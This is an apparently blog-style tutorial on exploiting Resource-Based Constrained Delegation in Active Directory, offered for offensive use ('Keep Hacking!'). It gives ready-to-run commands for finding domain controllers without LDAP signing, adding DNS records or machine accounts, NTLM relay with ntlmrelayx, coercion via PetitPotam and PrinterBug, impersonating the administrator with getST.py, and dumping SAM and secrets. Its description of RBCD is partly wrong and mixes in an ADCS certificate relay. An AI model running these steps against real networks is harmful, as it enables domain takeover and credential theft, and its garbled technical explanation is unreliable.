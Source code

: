 
# Resource-Based Constrained Delegation (RBCD) Exploitation

## Initial Engagement

### Introduction

 In this article, we'll delve into the world of Resource-Based Constrained Delegation (RBCD), a Windows-specific protocol that can be exploited for unauthorized access and understand how  to perform RBCD to gain elevated privileges or even domain administrator rights.

### What is RBCD?

RBCD is a Kerberos-based protocol that allows a service on a domain-joined computer to obtain a ticket-granting ticket (TGT) for a specified user account. This process is constrained by the permissions of the service, so the TGT obtained is limited in its scope and can't be used for unauthorized access. (We'll see about that)

### Why Should You Care?

 Understanding how to exploit RBCD vulnerabilities to gain unauthorized access to sensitive resources can add more to your toolkit. Understanding how constrain and coercion works you'll be better equipped to identify and mitigate (or exploit) these risks, ensuring the security of your organization's infrastructure.

## The How-To Guide

RBDC exploitation needs an specific set off conditions. I'll add a list of those conditions and we'll be going through it along the article so don't worry if you don't get something right away just keep reading.

- A domain controller with ldap signing disabled or not enforced
- A victim server with Web-based Distributed Authoring and Versioning (Webdav) enabled
- A domain user account with Service Principal Name (SPN) and delegation permissions 

That's good! Enough talk lets get in to the exploitation.
### Step 1: Identify Potential Targets

To exploit an RBCD vulnerability, you need to find a target that has not implemented proper security measures. we are looking for domain controllers with ldap signing disabled NetExec is our friend here.

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M ldap-checker
```

after we get our vulnerable domain controller we need to identify a machine to attack this is going to be our target this machine has to have webdav enabled and be vulnerable to two authentication coercion we are going to look for MS-EFSRPC (PetitPotam) or MS-RPRN (PrinterBug).

```
nxc smb <IP/Scope> -u <username> -p <password> -d <domain.com> -M coerce_plus
```

Now we got our targets, a vulnerable domain controller to perform the relay and a vulnerable machine to perform the coercion.
### Step 2: Setup our machine

Before proceeding with the exploit you'll need an account with SPN, if you're lucky enough your account already have an SPN if you don't have one there are a couple of ways to get one.

1. **Modify DNS record**
2. **Create a Machine account**

##### Modify DNS Record 

To modify the DNS record we can use a tool called `dnstool.py` that is part of the `krbrelayx` repository by the incredible Dirkjanm.

```
dnstool.py -u domain.com\username -p <password> -a add -t A -r <machinename> -d your_ip dns_server_ip
```

Let break this command a little:

- -a add : Action to take on the dns server
- -t A : Type of record 
- -r : Record to add (the name you want to use)
- -d : your attacker machine ip followed by the dns server ip

if this succeeds congrats you can continue with the relay if you don't have permissions maybe you can create a machine account.

##### Create a machine account

First of all we need to check if we have permissions to create machine accounts lets pull nxc again and check for the domain controller machine account quota (MAQ).

```
nxc ldap <IP/Scope> -u <username> -p <password> -d <domain.com> -M maq
```

if we have a maq above 0 we can attemp to create a machine account all machine accounts have SPN as default

to create a machine account we are going to use a tool from the Impacket Repo called `addcomputer.py`.

```
addcomputer.py -method LDAPS -computer-name 'COMPUTERNAME$' -computer-pass 'Password' -dc-host $DomainController -domain-netbios $DOMAIN 'DOMAIN\user:password'
```

- `-dc-host` : hostname of the domain controller.
- `-domain-netbios`: the domain's name where the new computer account will be added. 
- `-computer-name`: the name of the new computer account. 
- `-computer-pass`: password of the new computer account. 
- `-method`: the method to add the new computer account. It can be:
	- SAMR to add the account via SMB 
	- LDAPS. 
	(This is important the default method is SAMR and with SAMR the account will be created without SPNs)

if this succeeds congrats you can continue with the relay.
### Step 3: Configure and Launch the RBCD Exploit

RBCD is a relay attack we are going to relay the authentication from one machine to our own using coercion then we are going to relay that authentication attempt to a ADCS and get the certificate then we use that certificate to impersonate the victim account and get the kerberos ticket(TGT).

![[Relay.png]]
 
Lets start by setting up the relay. We are going to use another Impacket tool called `ntlmrelayx.py`.

```
./ntlmrelayx.py -smb2support -t ldaps://dc.domain.com --http-port 8080 --delegate-access --escalate-user SPNusername --no-dump --no-acl --no-da --remove-mic
```

Let `ntlmrelayx.py` running and attempt authentication. we have two ways for the coercion: 

- MS-EFSRPC (PetitPotam)  
- MS-RPRN (PrinterBug)

###### MS-EFSRPC (PetitPotam)
```
./PetitPotam.py -d episourcein.episource.com -u 'user' -p 'password' SPNUsername@8080/path victim.domain.com
```

###### MS-RPRN (PrinterBug)

```
./printerbug.py domain.com/user:password@victim.domain.com SPNUsername@8080/path
```

Then we are going to request the Impersonated Service Ticket for this we are going to use another impacket tool called `getSt.py`.

```
./getST.py -spn cifs/victim.domain.com -impersonate 'administrator' domain.com/SPNusername:'password' -dc-ip <domain_ip> 

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping... 
[*] Getting TGT for user
[*] Impersonating ldap.
```

Then we just have one step left retrieve the ticket stored in cache

```
export KRB5CCNAME=/yourpath/domainAdmin.ccache
```
### Step 4: Profit

Now you can use this kerberos credentials to do whatever you want enumerate, dump creds, etc ...

```
nxc smb victim.domain.com --use-kcache --sam 
```

```
./secretsdump.py -k -no-pass victim.domain.com
```

## Conclusion

Hope this guide help you get some Domain Accounts, By understanding how you can misuse RBCD vulnerabilities, you'll be better equipped to pawn more things. Keep Hacking!